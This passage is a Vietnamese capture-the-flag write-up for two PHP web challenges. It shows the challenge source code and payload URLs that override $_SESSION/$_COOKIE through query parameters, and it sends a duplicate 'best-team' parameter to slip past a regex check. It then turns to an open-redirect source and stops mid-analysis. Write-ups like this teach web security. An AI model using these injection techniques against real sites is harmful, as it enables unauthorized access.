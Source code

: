 ### Payload
```
http://cookie-and-milk.rf.gd/?_SESSION[idek]=aaroZmOk&_COOKIE[idek]=aaK1STfY&i=1
```
Result:

![image](https://user-images.githubusercontent.com/54855855/146053545-d98c1d4c-a528-49e3-a6e2-e551369eec4c.png)

## Challenge Memory of PHP
Bài này vẫn là 1 bài php và được cung cấp source khi truy cập challenge.
```php
<?php

include(__DIR__."/lib.php");
$check = substr($_SERVER['QUERY_STRING'], 0, 32);
if (preg_match("/best-team/i", $check))
{
    echo "Who is the best team?";
}
if ($_GET['best-team'] === "idek_is_the_best")
{
    echo "That a right answer, Here is my prize, <br>";
    echo $flag;
}
show_source(__FILE__);
?>
```
Phân tích source:
+ include file `lib.php` và chúng ta không biết file này chứa gì.
+ Biến `check` sẽ được gán bằng giá trị nằm trong array `$_SERVER['QUERY_STRING']`(các tham số mình nhập vô GET).
+ Kiểm tra `best-team` nằm trong biến `check` thì sẽ echo ra chuỗi `Who is the best team?`.
+ Tiếp tục kiểm tra `$_GET['best-team']` bằng với `idek_is_the_best` thì sẽ in ra `flag` (nhưng lừa đấy).

### IDEA
Ở đây chúng ta chỉ cần truyền 2 tham số `best-team`
+ `best-team` thứ nhất với giá trị bất kì, được gán vô check và kiểm tra `preg_match`.
+ `best-team` thứ hai là của `$_GET['best-team']` và chúng tra truyền giá trị `idek_is_the_best` => echo ra flag.
```
http://memory-of-php.rf.gd/?best-team=a&best-team=idek_is_the_best
```
Sau khi mình send với request như này thì sẽ nhận được 

![image](https://user-images.githubusercontent.com/54855855/146055394-00c98521-0e84-4108-b2fe-a1bc0adc536c.png)

Vậy tiếp tục ta sẽ access vô `/secure-bypass.php` => get được 1 source mới
```php
<?php
include __DIR__."/lib2.php";
if (isset($_GET['url'][15]))
{
    header("location: {$_GET['url']}");
    echo "Your url is interesting, here is prize {$flag} <br>";
}
else
{
    echo "Plz make me interest with your url <br>";
}
show_source(__FILE__);
?>
```
Phân tich source: